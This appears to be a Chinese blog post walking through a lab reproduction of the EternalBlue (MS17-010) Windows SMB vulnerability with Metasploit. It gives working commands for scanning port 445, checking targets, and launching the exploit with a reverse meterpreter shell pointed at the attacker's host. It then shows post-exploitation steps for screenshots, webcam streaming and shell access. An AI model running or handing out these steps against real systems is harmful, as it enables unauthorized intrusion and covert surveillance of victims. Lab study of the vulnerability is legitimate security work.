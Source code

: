```yaml
---
title: MSF永恒之蓝漏洞复现
tags: 
- CVE
- 漏洞
categories:
- 技术分享
top_img: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=500
cover: https://images.pexels.com/photos/1089440/pexels-photo-1089440.jpeg?auto=compress&cs=tinysrgb&dpr=1&w=800
date: 2020-03-26
---
```


永恒之蓝是指2017年5月12日起，全球范围内爆发的基于Windows网络共享协议进行攻击传播的蠕虫恶意代码，不法分子通过改造之前泄露的NSA黑客武器库中“永恒之蓝”攻击程序发起的网络攻击事件。

因为永恒之蓝攻击的是445端口, 扫描局域网中所有开放的445端口

```sh
nmap -sS -p 445 192.168.1.1-245
```

打开MSF, 加载扫描模块, 扫描靶机是否存在该漏洞
```sh
use auxiliary/scanner/smb/smb_ms17_010
show options
set rhosts 192.168.0.130       (靶机的IP)
exploit
```

加载攻击模块,并配置参数
```sh
use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_tcp

show options

set rhost 192.168.0.130 (靶机的IP)

set lhost 192.168.0.129 (发起攻击的主机IP)

set lport 443       (监听的端口)

exploit
```

功能展现

1.捕捉桌面：
meterpreter >screenshot

2.视屏开启
meterpreter > webcam_stream

3.获取shell






